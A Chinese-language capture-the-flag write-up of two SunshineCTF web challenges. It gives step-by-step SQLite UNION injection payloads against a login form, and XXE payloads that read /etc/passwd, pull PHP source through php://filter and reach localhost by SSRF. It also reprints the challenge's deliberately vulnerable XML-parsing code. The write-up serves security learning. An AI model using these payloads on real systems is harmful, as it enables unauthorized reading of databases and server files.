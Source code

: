 [TOC]

## WrestlerBook

![](./images/wrestlerbook(1).jpg)

[题目链接](<http://archive.sunshinectf.org:19006/>)

题目入口是一个登陆界面

![](./images/wrestlerbook(2).jpg)

顺手一条万能密码，出现了错误信息：

![](./images/wrestlerbook(3).jpg)

![](./images/wrestlerbook(4).jpg)

SQLite数据库，`#`注释符报错，换成`--`后成功登陆

![](./images/wrestlerbook(5).jpg)

但翻了一圈也没找到什么有用的东西。后猜测flag可能在数据库中，返回登陆界面，进行注入尝试，没发现什么过滤，一路顺下来就找到了flag，过程如下（payload是指登陆的用户名，passwd随意）：

-  payload1

  `admin' order by 10--`

  ![](./images/wrestlerbook(6).jpg)

  错误信息直接给出了原`select`所查询的列数。

- payload2

  `admin' union select 1,2,3,4,5,6,7,8--`

  ![](./images/wrestlerbook(10).jpg)

  下面选择7号显示位。

- payload3

  `admin' union select 1,2,3,4,5,6,group_concat(tbl_name),8 from sqlite_master--`

  ![](./images/wrestlerbook(7).jpg)

- payload4

  `admin' union select 1,2,3,4,5,6,sql,8 from sqlite_master where tbl_name='users'--`

  ![](./images/wrestlerbook(8).jpg)

  可以看到`users`表中有`flag`字段。

- payload5

  `admin' union select 1,2,3,4,5,6,group_concat(flag),8 from users-- `

  结果有点多，可以在网页源码中查看（或者查询的时候加上`distinct`）

  ![](./images/wrestlerbook(9).jpg)

## Wrestler Name Generator

![](./images/name_generate(1).jpg)  

[题目链接](<http://archive.sunshinectf.org:19007/>)

花里胡哨的名字生成界面

![](./images/name_generate(2).jpg)

输点东西提交后获得一个`Wrestler Name`

![](./images/name_generate(3).jpg)

这里注意到`url`，以`GET`方式传了个`input`参数，参数值有点东西：

`input=PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ%2BPGZpcnN0TmFtZT5oZWxsbzwvZmlyc3ROYW1lPjxsYXN0TmFtZT53b3JsZDwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D`

`base64decode(urldecode(input))`得到如下内容：

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
    <firstName>hello</firstName>
    <lastName>world</lastName>
</input>
```

`xml`！，先`xxe`探测一波，拿出祖传的`xxe`payload：

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [<!ENTITY bar SYSTEM "file:///etc/passwd">]>
<input>
    <firstName>&bar;</firstName>
    <lastName>world</lastName>
</input>
```

反向编码回去，获得新的`input`：

`input=PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgYmFyIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj5dPgo8aW5wdXQ%2bCiAgICA8Zmlyc3ROYW1lPiZiYXI7PC9maXJzdE5hbWU%2bCiAgICA8bGFzdE5hbWU%2bd29ybGQ8L2xhc3ROYW1lPgo8L2lucHV0Pg%3d%3d`

发送请求后就成功读取了`passwd`文件，可见`xxe`行得通。

![](./images/name_generate(4).jpg)

接着有试着读取服务器根目下的flag文件，不过失败了，好像没有。

后来在接收`input`参数的`generate.php`文件中找到了线索。虽然不知道`generate.php`在服务器上的存储路径，但我们可以通过`php`伪协议来读取：

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [<!ENTITY bar SYSTEM "php://filter/read=convert.base64-encode/resource=generate.php">]>
<input>
    <firstName>&bar;</firstName>
    <lastName>world</lastName>
</input>
```

拿到源码如下：

```php
<?php

$whitelist = array(
    '127.0.0.1',
    '::1'
);
// if this page is accessed from the web server, the flag is returned
// flag is in env variable to avoid people using XXE to read the flag
// REMOTE_ADDR field is able to be spoofed (unless you already are on the server)
if(in_array($_SERVER['REMOTE_ADDR'], $whitelist)){
	echo $_ENV["FLAG"];
	return;
}
// make sure the input parameter exists
if (empty($_GET["input"])) {
	echo "Please include the 'input' get parameter with your request, Brother";
	return;
}

// get input
$xmlData = base64_decode($_GET["input"]);
// parse xml
$xml=simplexml_load_string($xmlData, null, LIBXML_NOENT) or die("Error parsing XML: "."\n".$xmlData);
$firstName = $xml->firstName;
$lastName = $xml->lastName;
// generate name
$nouns = array("Killer", "Savage", "Stallion", "Coder", "Hacker", "Slasher", "Crusher", "Barbarian", "Ferocious", "Fierce", "Vicious", "Hunter", "Brute", "Tactician", "Expert");
$noun = $nouns[array_rand($nouns)];
$generatedName = $firstName.' "The '.$noun.'" '.$lastName;

// return html for the results page
echo <<<EOT
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Wrestler Name Generator</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>
<body>

<div class="jumbotron text-center">
  <h1>Your Wrestler Name Is:</h1>
  <h2>$generatedName</h2> 
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
  <a href="/">Go Back</a> 
</div>
</body>
</html>
EOT;
?>
```

其中第7行的注释告诉我们，通过服务器本地访问网站的`generate.php`文件即可拿到flag，那么接下来通过`xxe`进行依次简单的`SSRF`即可，payload如下：

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [<!ENTITY bar SYSTEM "http://localhost/generate.php">]>
<input>
    <firstName>&bar;</firstName>
    <lastName>world</lastName>
</input>
```

![](./images/name_generate(5).jpg)